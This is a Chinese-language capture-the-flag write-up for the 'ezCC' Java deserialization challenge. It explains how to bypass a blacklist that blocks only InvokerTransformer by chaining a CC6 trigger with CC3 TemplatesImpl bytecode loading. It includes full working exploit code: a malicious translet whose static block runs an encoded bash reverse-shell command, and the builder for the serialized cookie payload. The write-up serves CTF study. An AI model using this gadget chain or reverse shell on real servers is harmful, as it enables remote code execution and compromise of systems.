

# ezCC

## 题目简述

题目是 Java Web 反序列化。WAR 中只有一个 `myServlet`，路由包括 `/login` 和 `/welcome`：登录时把 `UserInfo` 序列化并 Base64 后写入 `userInfo` cookie；访问 `/welcome` 时读取该 cookie、Base64 解码并反序列化。依赖中包含 `commons-collections:3.2.1`，并且自定义 `BlacklistObjectInputStream` 只禁用了 `org.apache.commons.collections.functors.InvokerTransformer`。

关键机制可以概括为：

```java
// /login: 序列化用户信息写入 cookie
String userData = Tool.base64Encode(Tool.serialize(userInfo));
Cookie cookie = new Cookie("userInfo", userData);

// /welcome: 从 cookie 反序列化
byte[] raw = Tool.base64Decode(cookie.getValue());
UserInfo userInfo = (UserInfo) Tool.deserialize(raw);

// 黑名单只拦截 InvokerTransformer
if (className.equals("org.apache.commons.collections.functors.InvokerTransformer")) {
    throw new InvalidClassException("Forbidden class", className);
}
```

因此不能直接使用依赖 `InvokerTransformer` 的传统 CC1 链，但可以用 CC6 前半段配合 CC3 的 `TemplatesImpl + TrAXFilter + InstantiateTransformer` 绕过。

## 解题过程

先写一个恶意 `TemplatesImpl` 字节码类，在静态代码块中执行反弹 shell 或读取 flag 的命令：

```java
package Hgame.ezCC;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class GetFlag extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("bash -c {echo,<base64_shell>}|{base64,-d}|{bash,-i}");
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
            throws TransletException {}
}
```

然后构造 `TemplatesImpl`，用 `InstantiateTransformer` 创建 `TrAXFilter` 触发模板加载。外层使用 `LazyMap + TiedMapEntry + HashMap` 的 CC6 触发方式，避开 JDK 8u202 对部分链的限制，也绕过题目只黑名单 `InvokerTransformer` 的过滤。

```java
byte[] evil = Files.readAllBytes(Paths.get("target/classes/Hgame/ezCC/GetFlag.class"));
TemplatesImpl templates = new TemplatesImpl();

setField(templates, "_name", "a");
setField(templates, "_bytecodes", new byte[][] { evil });
setField(templates, "_tfactory", new TransformerFactoryImpl());

Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(TrAXFilter.class),
    new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { templates }),
};
ChainedTransformer chain = new ChainedTransformer(transformers);

Map inner = new HashMap();
Map lazyMap = LazyMap.decorate(inner, new ConstantTransformer(1));
TiedMapEntry entry = new TiedMapEntry(lazyMap, "111");

HashMap payload = new HashMap();
payload.put(entry, "222");
lazyMap.remove("111");
setField(lazyMap, "factory", chain);

String ser = Tool.base64Encode(Tool.serialize(payload));
System.out.println(ser);
```

把生成的 Base64 序列化数据作为 `userInfo` cookie 发给 `/welcome`，服务端进入 `Tool.deserialize()` 后触发 gadget 链。



## 方法总结

- 核心技巧：利用 cookie 反序列化入口，使用 CC6 触发点和 CC3 的 `TemplatesImpl` 字节码加载绕过单点黑名单。
- 识别信号：`commons-collections 3.2.1`、自定义 `ObjectInputStream`、只过滤某一个 Transformer 类时，不要停在被禁用的 CC1。
- 复用要点：反序列化题要先确认入口、依赖版本和过滤粒度；黑名单越窄，越适合换同族 gadget 链。
